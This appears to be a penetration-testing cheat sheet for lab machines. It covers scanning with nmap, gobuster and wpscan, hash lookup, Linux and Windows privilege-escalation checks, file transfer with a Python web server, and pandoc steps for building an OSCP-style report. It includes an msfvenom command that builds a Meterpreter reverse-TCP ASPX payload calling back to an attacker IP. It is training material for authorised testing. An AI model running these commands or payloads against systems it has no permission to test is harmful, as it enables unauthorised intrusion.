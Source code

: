 # Scanning

#### Nmap
The following is a list of .nse scrips and cheat sheets for nmap
```
$ nmap -sC -sV -oA nmap/OUTPUT 10.10.10.125
```
The following syntax is used for vulnerability scans within nmap
```
$ nmap --script vuln -oA nmap/OUTPUT 10.10.10.125
$ nmap --script http-enum --script-args http-enum.fingerprintfile=./myfingerprints.txt -p80 <target>  
```
#### Gobuster
Directory busting with gobuster
```
$ sudo gobuster dir -u http://10.10.10.68 -w ~/red-team/wordlists/directory-list-2.3-medium.txt
```
#### WordPress
The following tool will scan a wordpress site for known vulnerabilities and configuration items:
```
$ sudo wpscan --url https://example.com --disable-tls-checks
```
#### Manual Tricks
If 443 is open check the certificate for alternative Virtual hosts that the cert may work on.
If you find that the certificate is good for multiple subdomains/virtual hosts add them to your host file with the following command.
```
$ vi /etc/hosts

127.0.0.1         localhost
127.0.0.2         kali
10.10.10.123      www.example.com
```
# Cracking
Before we run any hashes through John the Ripper or Hash cat, lets check if anyone has cracked these hashes before.
- [HashKiller](https://hashkiller.co.uk/cracker)


# Privilege Escalation

### Windows
First lets check system info with the folloing commands.
```
C:\Users\user\Desktop> systeminfo
```
msf exploit checker:
```
msf exploit > use post/multi/recon/local_exploit_suggester
msf exploit > set SESSION 1
msf exploit > run
```
### Linux
- [GTFOBins](https://gtfobins.github.io/) is a fantastic resource for priviledge escolation within Linux.
First steps to go from low-privilege user to root on a linux box.
```
joanna@openadmin:~$ sudo -l                     
Matching Defaults entries for joanna on openadmin:                              
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\
  :/bin\:/snap/bin 
  
User joanna may run the following commands on openadmin:                         
  (ALL) NOPASSWD: /bin/nano /opt/priv                                 
  joanna@openadmin:~$ 
```
Look at what the user can sudo and try to escalation from their. 
After testing what the user can do, look to see what is running as root.
```
joanna@openadmin:~$ find / -perm -u=s -type f 2>/dev/null   
/usr/lib/openssh/ssh-keysign     
/usr/lib/eject/dmcrypt-get-device 
/usr/lib/snapd/snap-confine       
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper    
/usr/lib/policykit-1/polkit-agent-helper-1    
/usr/bin/newgrp                              
/usr/bin/pkexec         
/usr/bin/newgidmap      
/usr/bin/sudo   
/usr/bin/passwd  
/usr/bin/newuidmap
/usr/bin/chsh      
/usr/bin/traceroute6.iputils 
/usr/bin/chfn           
/usr/bin/gpasswd      
/usr/bin/at  
/bin/ping      
/bin/umount     
/bin/su        
/bin/mount     
/bin/fusermount
joanna@openadmin:~$
```

We can also look to see what access the `group` has. Sometimes the user might not have access to a specific directory but 
the group that user is a member of has access to read and write those files;

```
jimmy@openadmin:~$ find / -group internal 2>/dev/null
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
jimmy@openadmin:~$
```

We can try and get a root shell if a service is running as root, i.e. apache. Start a python http server to transfer files to the 
compromised machine. Note that this command will host files in your current directory, so make sure you copy all files before running
the python SimpleHTTPServer.
#### Python 2.7
```bash
$ sudo python -m SimpleHTTPServer 8888
```
#### Python 3
```bash
$ sudo python -m http.server 8888
```
# Meterpreter
Use the following to created a meterpreter shell for reverse_tcp for Windows
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 -f aspx -o exploit.aspx

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
```
# Pen Test Report
#### Requirements

- [Pandoc](https://pandoc.org/installing.html)
```
sudo apt-get install pandoc
```
- LaTeX (eg. [TeX Live](http://mirror.ctan.org/systems/texlive/tlnet/install-tl-unx.tar.gz)) in order to get `pdflatex` or `xelatex`
```
wget http://mirror.ctan.org/systems/texlive/tlnet/install-tl-unx.tar.gz
tar -xzf install-tl-unx.tar.gz
cd /your/unpacked/directory
perl install-tl  # install-tl-windows on Windows
[... messages omitted ...]
Enter command: i
[... when done, see below for post-install ...]
```
Post-install: setting PATH variable
```
PATH=/usr/local/texlive/2019/bin/x86_64-linux:$PATH
```
- [Eisvogel Pandoc LaTeX PDF Template](https://github.com/Wandmalfarbe/pandoc-latex-template#installation)
```
wget https://raw.githubusercontent.com/Wandmalfarbe/pandoc-latex-template/master/eisvogel.tex
mkdir -p ~/.pandoc/templates
mv eisvogel.tex ~/.pandoc/templates/default.latex
```
```
pandoc PENTEST_REPORT.md \
-o OSCP-OS-XXXXX-Lab-Report.pdf \
--from markdown+yaml_metadata_block+raw_html \
--template eisvogel \
--table-of-contents \
--toc-depth 6 \
--number-sections \
--top-level-division=chapter \
--highlight-style breezedark
```
